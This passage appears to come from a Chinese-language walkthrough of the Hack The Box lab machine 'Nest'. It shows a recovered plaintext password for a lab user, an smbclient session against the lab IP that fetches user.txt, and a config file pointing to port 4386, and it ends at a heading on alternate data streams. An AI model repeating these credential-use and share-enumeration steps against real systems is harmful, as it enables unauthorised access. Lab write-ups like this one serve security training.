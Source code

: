 设置断点，运行

![Xnip2020-03-07_03-08-48](https://tva1.sinaimg.cn/large/00831rSTgy1gckt1vb6lkj31c00u0h3e.jpg)

得到了用户 c.smith 的密码  c.smith:xRxRxPANCAK3SxRxRx

登录，得到 user.txt

```shell
root@kali:~/Desktop/HTB-Nest# smbclient -U c.smith //10.10.10.178/Users
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\c.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 07:04:21 2020
  ..                                  D        0  Sun Jan 26 07:04:21 2020
  Administrator                       D        0  Fri Aug  9 23:08:23 2019
  C.Smith                             D        0  Sun Jan 26 15:21:44 2020
  L.Frost                             D        0  Fri Aug  9 01:03:01 2019
  R.Thompson                          D        0  Fri Aug  9 01:02:50 2019
  TempUser                            D        0  Thu Aug  8 06:55:56 2019

		10485247 blocks of size 4096. 6544154 blocks available
smb: \> cd C.Smith
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 15:21:44 2020
  ..                                  D        0  Sun Jan 26 15:21:44 2020
  HQK Reporting                       D        0  Fri Aug  9 07:06:17 2019
  user.txt                            A       32  Fri Aug  9 07:05:24 2019

		10485247 blocks of size 4096. 6544154 blocks available
smb: \C.Smith\> cat user.txt
cat: command not found
smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 32 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\> 
```

## 0x03 获取 root.txt

用户 c.smith 文件夹下有一个 HQK Reporting ，打开 HQK_Config_Backup.xml 发现下面应该是轮到 4386 端口了

```shell
root@kali:~/Desktop/HTB-Nest/C.Smith/HQK Reporting# cat HQK_Config_Backup.xml 
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```

### Alternate Data Streams (ADS)
